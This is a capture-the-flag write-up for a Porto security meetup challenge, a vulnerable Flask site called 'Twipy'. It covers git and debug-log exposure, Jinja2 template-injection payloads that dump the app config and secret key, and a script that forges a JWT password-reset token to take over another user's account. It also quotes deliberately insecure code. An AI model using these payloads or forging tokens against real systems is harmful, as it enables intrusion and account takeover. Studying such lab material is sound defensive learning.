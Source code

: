```yaml
---
layout: post
title:  "ØxＯＰＯＳɆＣ Mɇɇtuᵽ [0x70] Challenge Write-up"
categories: [infosec, iot]
tags: [oposec, infosec, ctf]
thumbnail: /images/oposec/index.png
description: "Write-up for the CTF-like challenge of 0x70 edition of the ØxＯＰＯＳɆＣ Mɇɇtuᵽ"
---
```


"Based in Porto, the ØxＯＰＯＳɆＣ group was started by g33ks who are passionate about security. The meetup primary mission is to discuss and tackle upsurging security issues by leveraging the expertise and know-how of members of the group." This is the write-up of the challenge at the 0x70 meetup edition, by [DDuarte](https://github.com/DDuarte) and André Morais.
<!--more-->

The meetup happens in a monthly-basis, feel free to [join in](https://www.meetup.com/0xOPOSEC/).

![Index Page/Login](/images/oposec/index.png)

Jumping to the challenge. We're given an URL to a Twitter-like website named Twipy (image). From the name, we can conclude that maybe it is made in Python. We know that there are 4 flags to be found: 

- Flag 1 - Version Control is easy
- Flag 2 - Debug 101
- Flag 3 - Nice tweet Eve 🧪
- Flag 4 - This link is bamboozling

All the flags have the same format: *{flag}Rand0mStuff*

## Recon

First things first, lets make some recon even without creating an account. Firing up a [dirsearch](https://github.com/maurosoria/dirsearch) maybe will give us something. The results can be summed up as follow (200 status code results):

{% highlight bash linenos %}
$ dirsearch -u "example.com" -e py,php
|- 200 -    1KB - /.git/
|- 200 -  735B  - /.gitignore
|- 200 -    3KB - /auth/login
|- 200 -   19KB - /debug.log
{% endhighlight %}

So, from dirsearch, we found an exposed ```.git``` folder and a ```debug.log``` file. Downloading all the things with ```wget```.

{% highlight bash linenos %}
$ wget --mirror -I .git http://example.com/.git/
$ wget http://example.com/debug.log
{% endhighlight %}

Before moving further, firing up ```nmap``` returns only ports 22 (SSH) and 80 (HTTP), so nothing unusual here. We could try to find the credentials for the SSH, but it is a long-shot from the beginning. Firing also ```sqlmap``` on all the possible injectable fields (login form, account reset and ```next``` query param) also resulted in a dead-end.

![Timeline/Home](/images/oposec/timeline.png)

Moving further, and creating an account, we end up with a timeline (image). In the image we can see another user posts, *Willis Adams*, which has two messages being one of them a private message that we can only see the first 6 chars: *{flag}\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\**. Only the *Willis Adams* user can see the message behind the asterisk, but it is a flag. 

The other features of the website like the update profile, explore other users tweets and searching resulted in dead-ends.

## Flag 1 - Version Control is easy

After finding the ```.git``` folder, the next obvious step was to try to recover all the source code. By making a ```$ git status``` we could see all the files that were deleted. 

{% highlight bash linenos %}
$ git checkout -- .
{% endhighlight %}

Running the above command restored all the files to their most recent version (before being deleted). By checking the ```$ git log``` we found out some curious commit messages like *Don't disclose mail password :)*, but I could not find anything by analyzing the git diffs. 

Since we know that all flags have the same format, making an exaustive search among all files and revisions:
{% highlight bash linenos %}
$ git grep ".*flag.*" $(git rev-list --all)
{% endhighlight %}

We could find that in the commit ```eb3cb7e1ec4e73b0850ec4a6c4a89122599d213d``` the file ```twipy.py``` had the following line of code:

{% highlight python linenos %}
return '{flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.'
{% endhighlight %}
    
And so, we have our first flag:

>> {flag}Us3_vault_for_no_p4sswords_1n_s0urce_cod3.

## Flag 2 - Debug 101

During our recon phase we found out that a ```debug.log``` was exposed and accessible. Analyzing its contents we could immediatelly find the next flag:

{% highlight bash linenos %}
2019-01-10 17:52:25,489 ERROR: Unhandled Exception: {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c [in /twipy/app/errors/handlers.py:21]
{% endhighlight %}

Further, we found out that calling ```http://example.com/flag``` was the trigger to write that exception to the log file.

>> {flag}b3_c4r3ful_w1th_Wh4t_y0u_l34v3_pUbl1c

## Flag 3 - Nice tweet Eve 🧪

Since we now have access to the source code of the app, and sure that the app is written in Python, one of the first things that come to mind is [Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection). Reading some tutorials and write-ups about the subject I found this one as being the most straightforward: [Flaskcards challenge at Pico CTF 2018](https://s0cket7.com/picoctf-web).

To find if the website is vulnerable we simply tweet ```{% raw  %}{{ 7 * 7 }}{% endraw  %}```, and in the alert-info box we got the following response:
*You just posted: 49*

So our code is being executed. In order to exploit Template Injection firstly, we must find out what is the template engine being used. To do so, the probe ```{% raw  %}{{7 * '7'}}{% endraw  %}``` would result in ```49``` in Twig, ```7777777``` in Jinja2, and neither if no template language is in use. In our case, the response was: *You just posted: 7777777*, so we're dealing with Jinja2.

We could also reach the same conclusion by analyzing the Python packages in the ```requirements.txt``` file. And we could also identify the vulnerable code:

{% highlight python linenos %}
# TODO add user input validation
post_content = render_template_string('''You just posted: %s ''' % form.post.data)
{% endhighlight %}

The next step was trying to get the config, posting ```{% raw  %}{{ config.items() }}{% endraw  %}```, which resulted in an alert-info with a lot of information that is contained in the config, including:
- FLAG: {flag}V4lid4t3_always_us3r_1NPUT 
- SECRET_KEY: yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc=
- SQLALCHEMY_DATABASE_URI: mysql+pymysql://twipy:RkZDwtkaZ9ugnwf@db/twip

So we have our third flag:

>> {flag}V4lid4t3_always_us3r_1NPUT 

## Flag 4 - This link is bamboozling

One of the things that can be easily noticed is that each user has a unique UUID, e.g. *ae1677ca-f7bd-431a-8280-8fdf4aa801ca*. We can also visit other users profiles and get their unique UUID. 

{% highlight python linenos %}
god_user = User.query.filter_by(email='willis.adams@example.com').first()
if god_user:
    user.follow(god_user)
{% endhighlight %}

Analyzing the code creating a new user account, we notice that all the users must follow the user *Willis Adams*, with the UUID *70a82737-a6d9-4284-93db-0600db6f05ca*. 

{% highlight python linenos %}
def dummy_password(size=8, chars=string.ascii_letters + string.digits):
    return ''.join(random.choice(chars) for i in range(size))
{% endhighlight %}

Since the passwords are randomly generated in the ```twipy.py```, brute-forcing would take too much time. Another attack-vector can be the recovery password mechanism. By analyzing the structure of the recovery link, we notice that it resembles a [JWT token](https://jwt.io/): 

```http://example.com/auth/reset_password/eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InphZnlmb2t1QGdldG5hZGEuY29tIiwiaWQiOiJhZTE2NzdjYS1mN2JkLTQzMWEtODI4MC04ZmRmNGFhODAxY2EiLCJleHAiOjE1NDc3MjY4NzEuMzgwMzQ2LCJuYW1lIjoidHNhciJ9.pDrpqe-GB8Qo2xEdD5pDA9wIOtNpOl3GAq19LBFZJXs```.

In the  ```models.py``` file we have the following logic for assigning and validating recovery password tokens (JWT tokens).

{% highlight python linenos %}
def get_token(self, expires_in=600):
    return jwt.encode(
        {'id': self.id, 'name': self.name, 'email': self.email, 'exp': time() + expires_in},
        current_app.config['SECRET_KEY'],
        algorithm='HS256').decode('utf-8')

@staticmethod
def verify_token(token):
    try:
        id = jwt.decode(token, current_app.config['SECRET_KEY'], verify=False, algorithms=['HS256'])['id']
    except:
        return
    return User.query.get(id)
{% endhighlight %}

Since there is no call to database or nounce being used, we can make our own JWT tokens if we know the SECRET_KEY (from the third flag) and the UUID of the target user, in this case, the **god user**.

By making a simple script (checking out in the requirements.txt the Python package used for the JWT - PyJWT), we can get the JWT token in question.

{% highlight python linenos %}
import jwt
from time import time

secret_key = 'yJmsCAeao5zOM3gvoxHrOyM5HGJTTDpQ7UxAIHneCxc='
id = "70a82737-a6d9-4284-93db-0600db6f05ca"
name = "Willis Adams"
email = "willis.adams@example.com"
expires_in = 600;

print jwt.encode(
    {'id': id, 'name': name, 'email': email, 'exp': time() + expires_in},
    secret_key,
    algorithm='HS256').decode('utf-8')
{% endhighlight %}

By setting a new password to the *god user* we can see their private tweets thus getting the flag.

>> {flag}4lw4ys_v3r1fy_y0ur_t0k3NS


## Wrap-Up

It was a nice web challenge, always learning a little bit more about infosec and CTFs. Kudos @dduarte and @AndreMorais for the challenge.